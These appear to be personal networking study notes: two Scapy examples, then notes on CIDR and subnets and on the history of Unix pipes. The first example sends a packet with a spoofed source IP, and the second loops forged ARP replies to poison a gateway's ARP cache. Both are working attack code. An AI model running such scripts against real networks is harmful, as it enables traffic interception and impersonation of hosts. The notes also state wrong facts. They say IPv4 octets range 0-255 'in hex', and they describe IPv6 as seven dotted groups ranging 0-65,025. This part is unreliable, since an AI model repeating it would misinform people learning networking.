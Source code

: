 ### Example: IP Spoofing
```python
from scapy.all import *

# Craft a packet with a spoofed source IP
packet = IP(src="192.168.1.100", dst="8.8.8.8")/ICMP()

# Send the spoofed packet
send(packet)
```

### Example: ARP Spoofing
```python
from scapy.all import *

# Craft an ARP reply to poison the ARP cache
arp_response = ARP(op=2, pdst="192.168.1.1", hwdst="ff:ff:ff:ff:ff:ff", psrc="192.168.1.254")

# Send the ARP reply
send(arp_response, loop=1, inter=2)
```

> **Warning:** These examples are for educational purposes only. Unauthorized use of spoofing techniques is illegal and unethical.


# CIDR - Classless intern-domain routing
`10.4.22.0/24` This is called CIDR notation — short for Classless Inter-Domain Routing
It means the **first 24 bits** of the IP address are the **network part**. The **remaining 8 bits are for host addresses**.
it basically acts as a subnet mask - 255.255.255.0

IPv4 - 32 bits - 4 bytes - a.b.c.d - where a, b, c, d range from 0-255 in hex or 192.168.1.5 → 11000000.10101000.00000001.00000101 cuz 2^8 = 256
IPv6- 128 bits - 16 bytes - a.b.c.d.e.f.g - were they range from 0-65,025 (2 bytes each)
**subnet** - A smaller logical group of IP addresses within a larger network
its like a neighbour hood (subnet) inside a city(larger network)
All houses (IP addresses) share a common network prefix of (neighborhood)
£
Why are subnets useful?
	•	Split big networks into smaller, manageable chunks
	•	Improve security (e.g., guest Wi-Fi vs employee LAN)
	•	Reduce broadcast traffic
	•	Allow IP address reuse in different private networks


The pipe operator (|) was introduced by Douglas McIlroy (at Bell Labs) in the early 1970s.He described the concept in 1964 and it was implemented in the Unix shell by Ken Thompson in 1973.
	•	The idea: Connect programs like plumbing pipes, letting the “flow” of data go from one to the next.

“We should have some ways of connecting programs like garden hose–screw in another segment when it becomes necessary to massage data in another way.”
— Douglas McIlroy (the inventor of Unix pipes)
